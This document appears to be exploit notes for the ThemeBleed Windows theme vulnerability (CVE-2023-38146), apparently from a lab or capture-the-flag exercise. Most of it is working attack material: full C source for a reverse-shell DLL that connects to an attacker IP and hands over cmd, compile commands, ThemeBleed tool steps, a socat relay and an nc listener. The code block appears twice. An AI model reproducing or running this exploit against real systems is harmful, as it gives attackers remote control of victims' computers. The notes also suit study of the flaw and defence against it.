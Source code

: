 ## How Can Hackers Leverage this Vulnerability?

An attacker can leverage this vulnerability by creating a specially crafted ".theme" file and enticing a user to open it. Here's how the attacker can exploit this:

1. **Crafting the Malicious ".theme" File:** The attacker creates a ".theme" file that contains malicious code or references a ".msstyles" file manipulated with malicious content.
2. **Delivery to the Victim:** The attacker then tricks or persuades a user into downloading or opening this malicious ".theme" file through social engineering tactics, such as phishing emails, deceptive website downloads, or enticing file attachments.
3. **Exploiting the Vulnerability:** When the victim opens the compromised ".theme" file, the vulnerability within Windows 11 becomes triggered. Specifically, the flaw within the handling of ".msstyles" files can become exploited, allowing the attacker to execute arbitrary code on the victim's system.
4. **Remote Code Execution:** By successfully exploiting the vulnerability, the attacker can remotely execute their code or malicious binaries on the victim's system. This exploit grants the attacker unauthorized access and control over the compromised machine.



--> https://github.com/izenynn/c-reverse-shell
--> https://github.com/gabe-k/themebleed

```
#include <winsock2.h>
#include <windows.h>
#include <io.h>
#include <process.h>
#include <sys/types.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>


static int ReverseShell(const char *CLIENT_IP, int CLIENT_PORT) {


	WSADATA wsaData;
	if (WSAStartup(MAKEWORD(2 ,2), &wsaData) != 0) {
		write(2, "[ERROR] WSASturtup failed.\n", 27);
		return (1);
	}

	int port = CLIENT_PORT;
	struct sockaddr_in sa;
	SOCKET sockt = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
	sa.sin_family = AF_INET;
	sa.sin_port = htons(port);
	sa.sin_addr.s_addr = inet_addr(CLIENT_IP);

	if (connect(sockt, (struct sockaddr *) &sa, sizeof(sa)) != 0) {
		write(2, "[ERROR] connect failed.\n", 24);
		return (1);
	}

	STARTUPINFO sinfo;
	memset(&sinfo, 0, sizeof(sinfo));
	sinfo.cb = sizeof(sinfo);
	sinfo.dwFlags = (STARTF_USESTDHANDLES);
	sinfo.hStdInput = (HANDLE)sockt;
	sinfo.hStdOutput = (HANDLE)sockt;
	sinfo.hStdError = (HANDLE)sockt;
	PROCESS_INFORMATION pinfo;
	CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &sinfo, &pinfo);

	return (0);
}
void VerifyThemeVersion() {
  ReverseShell("10.10.14.104", 1234);
}

```

## Compile
`❯ x86_64-w64-mingw32-gcc main.c -shared -lws2_32 -o VerifyThemeVersion.dll` 

## COnfigure Theme on my windows machine
```
.\ThemeBleed.exe  make_theme 10.10.14.104 exploit.theme

# Copy the .exe that we make before into the data folder and rename it as stage_3
#start the server
.\ThemeBleed.exe  server

```

## Configure socat in my attacker machine
```
sudo socat TCP-LISTEN:445,fork,reuseaddr TCP:192.168.0.111:445

# listening reverse shell
nc -nlvp 1234
```


--------------

## Python version for executing on linux


https://github.com/Jnnshschl/CVE-2023-38146

```
#include <winsock2.h>
#include <windows.h>
#include <io.h>
#include <process.h>
#include <sys/types.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>


static int ReverseShell(const char *CLIENT_IP, int CLIENT_PORT) {


	WSADATA wsaData;
	if (WSAStartup(MAKEWORD(2 ,2), &wsaData) != 0) {
		write(2, "[ERROR] WSASturtup failed.\n", 27);
		return (1);
	}

	int port = CLIENT_PORT;
	struct sockaddr_in sa;
	SOCKET sockt = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
	sa.sin_family = AF_INET;
	sa.sin_port = htons(port);
	sa.sin_addr.s_addr = inet_addr(CLIENT_IP);

	if (connect(sockt, (struct sockaddr *) &sa, sizeof(sa)) != 0) {
		write(2, "[ERROR] connect failed.\n", 24);
		return (1);
	}

	STARTUPINFO sinfo;
	memset(&sinfo, 0, sizeof(sinfo));
	sinfo.cb = sizeof(sinfo);
	sinfo.dwFlags = (STARTF_USESTDHANDLES);
	sinfo.hStdInput = (HANDLE)sockt;
	sinfo.hStdOutput = (HANDLE)sockt;
	sinfo.hStdError = (HANDLE)sockt;
	PROCESS_INFORMATION pinfo;
	CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &sinfo, &pinfo);

	return (0);
}
void VerifyThemeVersion() {
  ReverseShell("10.10.14.104", 1234);
}

```

## Compile
`❯ x86_64-w64-mingw32-gcc main.c -shared -lws2_32 -o Aero.msstyles_vrf_evil.dll

```
pip3 install -r requirements.txt
python3 themebleed.py -r RHOST

```

